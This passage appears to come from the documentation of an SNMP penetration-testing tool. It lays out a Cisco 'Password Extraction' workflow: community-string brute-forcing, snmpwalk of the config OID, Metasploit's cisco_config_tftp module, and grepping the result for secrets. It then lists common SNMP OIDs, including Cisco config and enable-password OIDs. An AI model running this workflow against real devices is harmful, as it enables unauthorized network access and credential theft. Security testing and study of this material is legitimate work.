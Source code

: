 
### Workflow 4: Password Extraction
```bash
# 1. Find Cisco devices with SNMP
./snmpseek.py --bruteforce -f cisco_devices.txt

# 2. Extract running config (if writable SNMP exists)
snmpwalk -v2c -c private 192.168.1.1 1.3.6.1.4.1.9.2.1.53

# 3. Use Metasploit cisco_config_tftp
use auxiliary/scanner/snmp/cisco_config_tftp
set COMMUNITY private
set RHOST 192.168.1.1
run

# 4. Analyze extracted config
grep -i "password\|secret\|key" cisco_config.txt
```

## Common SNMP OIDs

### System Information
```
1.3.6.1.2.1.1.1.0    - sysDescr (System description)
1.3.6.1.2.1.1.3.0    - sysUpTime (Uptime)
1.3.6.1.2.1.1.4.0    - sysContact (Contact)
1.3.6.1.2.1.1.5.0    - sysName (Hostname)
1.3.6.1.2.1.1.6.0    - sysLocation (Location)
```

### Network Information
```
1.3.6.1.2.1.2.2.1.2  - ifDescr (Interface descriptions)
1.3.6.1.2.1.4.20.1.1 - ipAdEntAddr (IP addresses)
1.3.6.1.2.1.4.21.1.7 - ipRouteNextHop (Routing table)
1.3.6.1.2.1.4.22.1.2 - ipNetToMediaPhysAddress (ARP cache)
```

### Hardware Information
```
1.3.6.1.2.1.25.2.3.1.3  - hrStorageDescr (Storage)
1.3.6.1.2.1.25.3.3.1.2  - hrProcessorLoad (CPU load)
1.3.6.1.2.1.25.4.2.1.2  - hrSWRunName (Running processes)
```

### Cisco-Specific
```
1.3.6.1.4.1.9.2.1.53    - Cisco configuration
1.3.6.1.4.1.9.2.1.55    - Cisco enable password
1.3.6.1.4.1.9.9.23.1.2  - Cisco CDP neighbors
```
